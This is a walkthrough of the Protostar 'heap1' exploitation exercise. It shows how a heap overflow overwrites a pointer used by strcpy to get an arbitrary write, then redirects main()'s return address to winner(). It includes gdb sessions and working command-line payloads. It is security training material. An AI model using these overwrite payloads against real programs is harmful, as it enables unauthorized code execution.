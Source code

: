 To overwrite the `0x0804a038` pointer, we see that we need to write 20 bytes
followed by the memory address where we want the second `strcpy` call to write
to. We confirm this by attempting to write to `0x42424242` which should result
in a segmentation fault.

```shell
(gdb) run `python -c "print 'A' * 20 + 'BBBB'"` CCCC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + 'BBBB'"` CCCC

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x42424242 <Address 0x42424242 out of bounds>, src=0xbffff96b "CCCC") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

Now that we can write to an arbitrary address, what and where should we write?
The natural thought here is to overwrite the the return address of `main()` on
the stack with the memory address of `winner()`.

```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Now, how we do know where the return address is stored on the stack? By setting
a breakpoint on the `ret` instruction in `main()`, we can see that the address
when running in GDB is `0xbffff77c`.

```shell
(gdb) break *0x08048567
Breakpoint 1 at 0x8048567: file heap1/heap1.c, line 35.
(gdb) run AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
and that's a wrap folks!

Breakpoint 1, 0x08048567 in main (argc=134513849, argv=0x3) at heap1/heap1.c:35
35      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
(gdb) print $esp
$1 = (void *) 0xbffff77c
```

However, we cannot use this exact memory address as the layout of the stack
does change outside of a debugger. Since the stack is not touched after the
second `strcpy` until `main()` returns, what we _can_ do is start from an
address near `0xbffff77c` and write `\x94\x84\x04\x08` repeatedly. This will
eventually overwrite the return address of `main()`.

After some trial and error, this is what we end up with.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8"`
and that's a wrap folks!
and we have a winner @ 1527638212
Segmentation fault
```
